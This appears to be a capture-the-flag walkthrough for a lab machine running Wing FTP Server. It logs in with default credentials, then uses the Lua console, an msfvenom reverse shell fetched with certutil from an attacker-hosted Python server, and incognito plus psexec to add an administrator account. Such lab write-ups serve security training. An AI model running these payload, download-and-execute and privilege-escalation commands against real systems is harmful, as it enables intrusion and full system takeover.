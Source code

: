# Cyberseclabs : 172.31.1.20

Go to port 8080 to find the wingftp server. Login with default creds admin:password. Click on console to have a lua console.

Make a msfvenom reverse.exe using:
```zsh
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.0.40 LPORT=443 -f exe > rev.exe
```
Start a listener at port 443
```rlwrap nc -lvnp 443```

Now host a msfvenom reverse.exe on a python server using:
```zsh
python -m SimpleHTTPServer 8000
```
In the console use certutil to upload the file using:

```os.execute('certutil.exe -urlcache -split -f http://10.10.0.40:8000/rev.exe %TEMP%/rev.exe')```

Now run the file :
```os.execute('%TEMP/rev.exe')```

C:\Program Files (x86)\Wing FTP Server\WFTPServer.exe service


Wing FTP Server(Wing FTP Server)[C:\Program Files (x86)\Wing FTP Server\WFTPServer.exe service] - Auto - Running - No quotes and Space de
tected

Well this is kinda usless coz you cannot start or query or check the service and hence the name of the box is Imposter. We will use it to do some privesc.

> https://github.com/milkdevil/incognito2

```cmd
incognito.exe add_user darkterror abcABCdefDEF@123!
```

```cmd
incognito.exe add_localgroup_user Administrators darkterror
```

```zsh
python psexec.py 'darkterror'@172.31.1.20
```
Hope this helps